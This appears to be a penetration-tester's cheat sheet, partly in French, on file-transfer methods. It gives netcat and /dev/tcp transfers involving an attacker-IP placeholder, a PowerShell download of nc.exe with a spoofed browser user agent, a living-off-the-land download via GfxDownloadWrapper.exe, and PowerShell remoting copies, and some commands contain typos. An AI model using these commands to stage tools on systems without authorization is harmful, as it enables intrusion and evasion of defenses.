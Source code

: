 ----

## Miscellaneous File Transfer Methods

###### Netcat
```bash
# listenner
nc -l -p <Port> > <Filename>
# specifier --recv-only : pour fermer la connexion une fois le fichier transmis 

# sender
nc -v -w 2 -u <RecieverIp> -p <Port> < <Filename>
# specifier : (-q 0 | --send-only ) : pour fermer la connexion une fois le fichier transmis

# alternative listenner
cat < /dev/tcp/<AttaquantIP/<Port> > <FileName>
# alternative sender
sudo nc -l -p <Port> -q 0 < <FileName
```

###### Living off the land 

* use gtfobin : linux
* use lolbin : windows
```powershell
# list user agents
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

# request with chrome user agent
Invoke-WebRequest http://<IP>/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::<Chrome | name on listing> -OutFile "C:\<OutputFile>"



# living of the land
# use other binary
#Transferring File with GfxDownloadWrapper.exe
GfxDownloadWrapper.exe "http://<FileToDownloadPath>" "C:\<OutPutPath>"
```

###### Powershell Session

* Requirement : be admin

```powershell
# winRM
Test-NetConnection -ComputerName <ComputerName> -Port <Port>

# create powershell remoting session
$Session = New-PSSession -ComputerName 
<ComputerName>

# copy file from localhost to other
Copy-Item -Path C:\<File¨Path> -ToSession $Session -Destination C:\<NewPath>

# copy file from other to localhost
 Copy-Item -Path "C:\<FilePath>" -Destination C:\ -FromSession $Session
```
